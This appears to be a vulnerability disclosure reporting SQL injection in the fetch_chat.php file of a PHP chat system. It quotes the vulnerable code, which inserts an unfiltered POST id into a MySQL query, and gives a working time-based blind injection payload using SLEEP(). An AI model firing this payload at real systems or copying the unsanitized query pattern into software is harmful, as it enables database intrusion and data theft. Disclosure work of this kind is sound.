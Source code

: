 # Chat System Using PHP has sql injection in /user/fetch_chat.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/user/fetch_chat.php



## describe


The id parameter in /user/fetch_chat.php is not properly sanitized or parameterized, which leaves it vulnerable to SQL injection attacks. Attackers can exploit this by injecting malicious SQL code to manipulate the database queries. Utilizing time-based SQL injection methods, they can introduce intentional delays in the database response through functions such as SLEEP(). This technique can be employed to verify the existence of the vulnerability and may also be used to extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('../conn.php');
	if(isset($_POST['fetch'])){
		$id = $_POST['id'];
		
		$query=mysqli_query($conn,"select * from `chat` left join `user` on user.userid=chat.userid where chatroomid='$id' order by chat_date asc") or die(mysqli_error());
		while($row=mysqli_fetch_array($query)){
		?>	
		<div>
			<img src="../<?php if(empty($row['photo'])){echo "upload/profile.jpg";}else{echo $row['photo'];} ?>" style="height:30px; width:30px; position:relative; top:15px; left:10px;">
			<span style="font-size:10px; position:relative; top:7px; left:15px;"><i><?php echo date('M-d-Y h:i A',strtotime($row['chat_date'])); ?></i></span><br>
			<span style="font-size:11px; position:relative; top:-2px; left:50px;"><strong><?php echo $row['uname']; ?></strong>: <?php echo $row['message']; ?></span><br>
		</div>
		<div style="height:5px;"></div>
		<?php
		}
	}	
?>
```

Inserting $_POST['id'] into Mysql query without any filter. A time-based blind SQL injection can be triggered.





## POC

```
id=1' AND (SELECT 1003 FROM (SELECT(SLEEP(5)))bYhJ) AND 'VosV'='VosV
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.
